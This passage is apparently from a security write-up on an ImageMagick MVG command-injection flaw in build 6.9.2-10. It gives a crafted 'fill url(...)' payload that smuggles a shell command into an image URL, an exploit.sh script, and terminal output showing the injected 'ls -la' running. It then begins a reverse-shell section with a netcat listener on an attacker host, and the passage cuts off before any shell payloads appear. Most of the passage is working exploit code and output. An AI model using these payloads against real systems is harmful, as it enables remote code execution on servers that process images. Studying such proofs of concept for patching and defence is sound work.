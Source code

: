 The following example MVG command will render an arc:

    convert -size 100x60 canvas:skyblue -fill white -stroke black \
      -draw "path 'M 30,40  A 30,20  20  0,0 70,20 A 30,20  20  1,0 30,40 Z '" \
      arc.png

Given this is a full blown DSL (domain specific language), the above exploit takes advantage of the `fill` command it supports, giving it an `https` based URL to work with.

    fill 'url(https://127.0.0.0/spl017.jpg"|ls "-la)'


**exploit.sh**:

    #! /usr/bin/env bash
    DIR="$( cd "$( dirname "${BASH_SOURCE[0]}" )" && pwd )"
    IDENTIFY=/root/Downloads/ImageMagick-6.9.2-10/utilities/identify
    CONVERT=/root/Downloads/ImageMagick-6.9.2-10/utilities/convert
    $CONVERT exploit.mvg exploit.png 

Attempting to `convert` (one of the most feature laden ImageMagick binaries) using the `6.9.2-10` build:

    root@kali:~/git/PoCs# ./exploit.sh 
    total 84
    drwxr-xr-x 3 root root  4096 Sep 28 15:43 .
    drwxr-xr-x 3 root root  4096 Sep 28 13:29 ..
    -rw-r--r-- 1 root root   112 Sep 28 15:43 exploit.mvg
    -rw-r--r-- 1 root root   111 Sep 28 15:41 exploit.png
    -rwxr-xr-x 1 root root   241 Sep 28 15:33 exploit.sh
    drwxr-xr-x 8 root root  4096 Sep 28 09:31 .git
    convert: unrecognized color `https://localhost/sp1017.jpg"|ls "-...
    convert: unable to open image `/tmp/magick-22459XyJrh1pYEj2M': N...
    convert: unable to open file `/tmp/magick-22459XyJrh1pYEj2M': No...
    convert: non-conforming drawing primitive definition `fill' @ er...


Can see the exploit in action, with the `ls -la` listing in action, just prior to the failed conversion output.




## Exploitability assessment --- reverse shells

Taking the MVG shell leakage vulnerability further, @shin has shared a number of remote shell focused proof of concepts that leverage a variety of options depending whats available on the target host.

For all the following samples, a netcat listener is running on the kali attacker host.

    root@kali:~# nc -l -p 443

Also, for convenience the 6.9.2-10 build of the ImageMagick `convert` and `identify` utilities is set as two shell variables:

    root@kali:~# export CONVERT=/root/Downloads/ImageMagick-6.9.2-10/utilities/convert
    root@kali:~# export IDENTIFY=/root/Downloads/ImageMagick-6.9.2-10/utilities/identify
